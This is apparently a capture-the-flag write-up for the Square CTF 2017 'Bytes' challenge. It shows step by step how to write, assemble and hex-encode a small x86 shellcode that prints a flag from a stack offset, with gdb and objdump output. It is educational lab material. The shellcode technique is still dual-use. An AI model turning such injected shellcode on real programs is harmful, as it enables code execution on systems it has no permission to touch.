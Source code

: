 > # Bytes (50 points, Exploit)
> You can use a lot of bytes.
> 
> Our operatives found this site, which appears to control some of the androids’ infrastructure! The robots love x86 assembly; the only thing easier for them to work with is binary. 64 bytes should be enough for anyone.
> This URL is unique to your team! Don't share it with competitors!
> https://*redacted*.capturethesquare.com 

1. To get started, download the file
2. Run it: ```
daMage@kalima:~/ctfs/squarectf2017/bytes$ ./bytes  f000
Shellcode location: 0xf770d000
Flag location: 0xffad5e50
WUNTEE_CHALLENGE_FLAG environmental variable not set. Could not read flag.```
3. Prepare the environment:```
daMage@kalima:~/ctfs/squarectf2017/bytes$ echo abcdefghijklmnopqrstu > flag.txt
daMage@kalima:~/ctfs/squarectf2017/bytes$ export WUNTEE_CHALLENGE_FLAG=flag.txt```
4. Run the executable with gdb, and pass the cc's (interrupt / Int3) as the shellcode. Now is a good time to check the registers: ```
daMage@kalima:~/ctfs/squarectf2017/bytes$ gdb -q ./bytes
Reading symbols from ./bytes...(no debugging symbols found)...done.
(gdb) r cccccc
Starting program: /home/daMage/ctfs/squarectf2017/bytes/bytes cccccc
Shellcode location: 0xf7fd1000
Flag location: *0xffffd200*

Program received signal SIGTRAP, Trace/breakpoint trap.
0xf7fd1001 in ?? ()
(gdb) info registers 
eax            0x4	4
ecx            0xffffd200	-11776
edx            0x5	5
ebx            0x1	1
esp            0xffffd1f0	*0xffffd1f0*
ebp            0xffffd298	0xffffd298
esi            0x2	2
edi            0xf7fad000	-134557696
eip            0xf7fd1001	0xf7fd1001
eflags         0x286	[ PF SF IF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
(gdb) 
```
5. Notice that the flag address is pretty close to stack pointer (just 0x10 offset).
6. Prepare simple shellcode: ```
daMage@kalima:~/ctfs/squarectf2017/bytes$ cat test.asm 
mov edx,0x24 ; length to print, just guess now
mov ecx,esp  ; count the location from stack pointer
add ecx,0x10 ; offset was 0x10, right
mov ebx,1    ; file descriptor for stdout
mov eax,4    ; sys_write call number (for 32-bit)
int 0x80     ; Do linux syscall
mov eax,1    ; exit gracefully
int 0x80     ; fin```
7. Compile with nasm and get the opcodes with objdump: ```
daMage@kalima:~/ctfs/squarectf2017/bytes$ nasm  -f elf test.asm
daMage@kalima:~/ctfs/squarectf2017/bytes$ objdump -d -M intel test.o |cut -f2

test.o:     file format elf32-i386

Disassembly of section .text:
00000000 <.text>:
ba 24 00 00 00       
89 e1                
83 c1 10             
bb 01 00 00 00       
b8 04 00 00 00       
cd 80                
b8 01 00 00 00       
cd 80           
```
8. Clean up the output from objdump and try it locally:```
daMage@kalima:~/ctfs/squarectf2017/bytes$ objdump -d -M intel test.o |cut -f2|tail -n 8 |tr -d ' \n'; echo
ba2400000089e183c110bb01000000b804000000cd80b801000000cd80
daMage@kalima:~/ctfs/squarectf2017/bytes$ ./bytes ba2400000089e183c110bb01000000b804000000cd80b801000000cd80
Shellcode location: 0xf77c1000
Flag location: 0xfff684e0
abcdefghijklmnopqrstu
1}��~����daMage@kalima:~/ctfs/squarectf2017/bytes$
```
9. Finally pass the hex-encoded string to the online form and get flag:```
Output:

Shellcode location: 0xf7765000
Flag location: 0xffd4e320
flag-nolyl-kuhyc-leduv-ryvad-mekyk


Status:

pid 82 exit 1```
